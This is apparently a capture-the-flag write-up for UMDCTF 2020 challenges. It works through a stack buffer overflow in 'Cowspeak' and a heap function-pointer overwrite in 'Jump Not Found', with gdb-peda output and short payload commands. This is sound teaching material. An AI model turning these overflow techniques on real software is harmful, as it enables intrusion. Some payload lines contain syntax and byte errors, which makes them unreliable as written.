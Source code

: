 # UMDCTF-2020-Writeups
Write-Ups for WittsEnd2 Challenges for UMDCTF - This is a work in progress. More will come as more are written.

## Exploitation

### Cowspeak As A Service

First, let's explore `main()`. We see `char buf[1024]` and `fgets(buf, 1024, stdin)`. This means that we can put in upto 1024 bytes from stdin. 

Next lets break down  `moo()`. We see that moo takes in a parameter `*msg`, which is being put into `speak[64]` via `strcpy()`. This is also being set as the value of the environment variable `$MSG`. `system()` uses `$MSG` as a parameter for program `cowsay`.

There is also an integer called `chief_cow`, which is being set as the overwrite value of setenv. From `man setenv` overwrite does the following behavior:
 - If name does exist in the environment, then its value is changed to value if overwrite is nonzero; if overwrite is zero, then the value of name is not changed (and setenv()  returns a success status).

Based on this, we can reasonably conclude that in order to overwrite either be `0` or something other than `1`. 

Given the C file we can reasonably conclude that the layout of the stack of function `moo()` is as follows. (Note, highest address on stack starts on the top). 

 - Return Address of moo
 - EBP chief_cow - 8 byte address
 - chief_cow - int
 - EBP speak - 8 byte address
 - speak - char * 64

As a result if we modify chief_cow correctly, we will get the flag. This must be a perfect construction because if we overwrite additional bytes, it will behave normally (based on the fact it is setting an environment variable, and `strcspn(speak, '\r\n')` is looking for termination).

Given this, our payload must be 76 bytes because `64+8+4` will modify chief_cow, without affecting anything else. 

```bash
python -c "print('A' * 76) > payload.txt"
./cowspeak < payload.txt #or netcat

# UMDCTF-{flag_will_appear}
```

### Jump Not Found

We are given a binary to start. The first thing I would do given the binary is see what functions are present via gdb. We see in `info functions`.

```
0x00000000004004e0  _init
0x0000000000400510  puts@plt
0x0000000000400520  printf@plt
0x0000000000400530  strtol@plt
0x0000000000400540  gets@plt
0x0000000000400550  malloc@plt
0x0000000000400560  exit@plt
0x0000000000400570  _start
0x00000000004005a0  _dl_relocate_static_pie
0x00000000004005b0  deregister_tm_clones
0x00000000004005e0  register_tm_clones
0x0000000000400620  __do_global_dtors_aux
0x0000000000400650  frame_dummy
0x0000000000400657  jumpToHoth
0x0000000000400668  jumpToCoruscant
0x0000000000400679  jumpToEndor
0x000000000040068a  jumpToNaboo
0x000000000040069b  main
0x00000000004007f0  __libc_csu_init
0x0000000000400860  __libc_csu_fini
0x0000000000400864  _fini
```

So we see that there are four functions with `jumpTo` in the name and main. Next we checkout the program behavior. 

```
$ ./JNF
SYSTEM CONSOLE> 7
Check Systems
1 - Hoth
2 - Coruscant
3 - Endor
4 - Logout
SYSTEM CONSOLE> 1
Checking navigation...
Jumping to Hoth...
SYSTEM CONSOLE> 2
Checking navigation...
Jumping to Coruscant...
SYSTEM CONSOLE> 3
Checking navigation...
Jumping to Endor...
SYSTEM CONSOLE>
```
So we notice that we can jump to `Hoth`, `Coruscant`, and `Endor`, but naboo is missing. Lets see if there is any unexpected behvior with this. You can use a disassembler to figure out actual behavior; however, what I recommend is using `gdb-peda` or `gdb-gre` to generate a pattern and find out what is happening. 
```
gdb-peda$ pattern-create 200
Undefined command: "pattern-create".  Try "help".
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /home/mwittner/UMDCTF-2020-Challenges/Exploitation/JNF/host/JNF
SYSTEM CONSOLE> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
Check Systems
1 - Hoth
2 - Coruscant
3 - Endor
4 - Logout
SYSTEM CONSOLE> 1
Checking navigation...

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7fffff19ecc0 --> 0x2000200020002
RDX: 0x3541416641414a41 ('AJAAfAA5')
RSI: 0x6022d0 ("Checking navigation...\nlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RDI: 0x1
RBP: 0x7ffffffeddf0 --> 0x4007f0 --> 0x41d7894956415741
RSP: 0x7ffffffeddd0 --> 0x602261 --> 0x4141734141254100 ('')
RIP: 0x40076a --> 0x400904bf7cebd2ff
R8 : 0x7fffff7d14c0
R9 : 0x0
R10: 0x7fffff19ecc0 --> 0x2000200020002
R11: 0x7fffff19ecc0 --> 0x2000200020002
R12: 0x400570 --> 0x89485ed18949ed31
R13: 0x7ffffffeded0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40075e <main+195>: mov    rax,QWORD PTR [rbp-0x10]
   0x400762 <main+199>: mov    rdx,QWORD PTR [rax]
   0x400765 <main+202>: mov    eax,0x0
=> 0x40076a <main+207>: call   rdx
   0x40076c <main+209>: jmp    0x4007ea <main+335>
   0x40076e <main+211>: mov    edi,0x400904
   0x400773 <main+216>: call   0x400510 <puts@plt>
   0x400778 <main+221>: mov    rax,QWORD PTR [rbp-0x10]
No argument
[------------------------------------stack-------------------------------------]
0000| 0x7ffffffeddd0 --> 0x602261 --> 0x4141734141254100 ('')
0008| 0x7ffffffeddd8 --> 0x602260 --> 0x4173414125410031 ('1')
0016| 0x7ffffffedde0 --> 0x6022b0 ("AJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiChecking navigation...\nlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7ffffffedde8 --> 0x6e670c801dc57d00
0032| 0x7ffffffeddf0 --> 0x4007f0 --> 0x41d7894956415741
0040| 0x7ffffffeddf8 --> 0x7fffff021b97 (<__libc_start_main+231>:       mov    edi,eax)
0048| 0x7ffffffede00 --> 0x1
0056| 0x7ffffffede08 --> 0x7ffffffeded8 --> 0x7ffffffee12f ("/home/mwittner/UMDCTF-2020-Challenges/Exploitation/JNF/host/JNF")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040076a in main ()
```
We see that it segmentation faults when jumping to Hoth, and we notice something interesting happening to the registers: 
```
RDX: 0x3541416641414a41 ('AJAAfAA5')
RSI: 0x6022d0 ("Checking navigation...\nlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
```
This looks similar to our pattern we just created, so lets see what happens when we try to find `AJAAfAA5`.

```
gdb-peda$ pattern offset AJAAfAA5
AJAAfAA5 found at offset: 80
gdb-peda$   
```
It looks like that it is found at offset 80. Therefore our payload must be 80 bytes to reach it. Now if you haven't started disassembling already, you should do that. You should also have figured out that this is not a stack based exploit because the system is calling function pointers through the struct `jmptable`. `jmptable` is initialized through malloc; thus, it is a heap based exploit. As a result, we should place the address immediately after our payload. 

Our construction of the payload is as follows: `payload + address`. There is two caveats to this: if you do not tell the system to jump to Hoth immediately after, you will run into an infinite loop. In addition, can't start at the prolog. the first byte of jumpToNaboo(that isn't 0x00) is 0x0a, which is `\n` in ascii. Running this command in GDB `b jumpToNaboo` will give you a good place to start. 

Final steps: 
```bash
python -c "print('A'+80+'\x40\06\8e\n\1\n')" > payload 
./JNF < payload
# UMDCTF-{flag_appears_here} 
```

